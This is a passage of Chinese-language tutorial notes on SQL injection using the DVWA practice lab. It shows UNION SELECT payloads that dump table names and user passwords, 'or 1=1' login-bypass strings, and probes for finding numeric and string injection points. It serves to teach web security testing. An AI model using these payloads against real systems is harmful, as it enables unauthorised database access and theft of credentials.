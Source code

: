 	SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema= 'dvwa'#`; information_schema数据库记录了数据库名,表,数据类型,访问权限等.其中的talbes表记录了表明和表明所在的数据库

	SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#`; 从users表用户名、密码

**绕过认证**

登录功能实际执行的SQL语句
	
	select * from users where username='123' and password='123'

构造:

	select * from users where username='123' or 1=1 #' and password='123' or 1=1 #' 判断语句 or 1=1 恒成立，所以结果当然返回真
	
或

	select * from users where username='123' or '1'='1' and password='123' or '1'='1
	

### 寻找SQL注入点 ###

**单引号判断法**:在参数后面添加单引号,如果页面返回错误,则存在 Sql 注入,原因是无论字符型还是整型都会因为单引号个数不匹配而报错;未报错也不能说明不存在,可能对单引号做了过滤

	http://xxx/abc.php?id=1'

**注入类型**:数字型,字符型,由创建表时本身的类型产生

**数字型判断**

	select * from <表名> where id = x 

当输入的参数x未整形时,使用 and 1=1 和 and 1=2 进行判断:

1. Url 地址中输入 http://xxx/abc.php?id= x and 1=1 页面依旧运行正常，继续进行下一步。
2. Url 地址中继续输入 http://xxx/abc.php?id= x and 1=2 页面运行错误，则说明此 Sql 注入为数字型注入。

如果是数字型,实际执行的SQL如下,两者都没有语法错误,前者逻辑判断正确返回正常,后者逻辑判断错误返回错误

	select * from <表名> where id = x and 1=1 
	select * from <表名> where id = x and 1=2 

而如果是字符型,则不会出现一个正常一个错误的响应,因为被翻译为

	select * from <表名> where id = 'x and 1=1' 
	select * from <表名> where id = 'x and 1=2' 
	

**字符型判断**

	select * from <表名> where id = 'x'

当输入的参 x 为字符型时,使用 and '1'='1 和 and '1'='2 来判断:

1. Url 地址中输入 http://xxx/abc.php?id= x' and '1'='1 页面运行正常，继续进行下一步。
2. Url 地址中继续输入 http://xxx/abc.php?id= x' and '1'='2 页面运行错误，则说明此 Sql 注入为字符型注入。

如果为字符型,实际执行的SQL如下,两者都没有语法错误,前者逻辑判断正确返回正常,后者逻辑判断错误返回错误

	select * from <表名> where id = 'x' and '1'='1'
	select * from <表名> where id = 'x' and '1'='2'
